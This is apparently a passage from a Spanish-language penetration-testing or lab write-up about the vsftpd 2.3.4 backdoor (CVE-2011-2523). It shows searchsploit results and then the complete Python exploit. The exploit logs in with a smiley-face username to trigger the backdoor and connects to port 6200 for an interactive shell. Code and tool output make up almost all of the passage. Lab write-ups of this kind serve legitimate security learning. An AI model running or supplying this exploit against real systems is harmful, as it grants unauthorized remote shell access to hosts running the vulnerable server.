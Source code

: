 ```zsh
searchsploit vsFTPd 2.3.4
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                       | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```
<br>
Parece que tenemos posibilidad de comprometer a la víctima, vamos a ver el exploit.

```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()%

```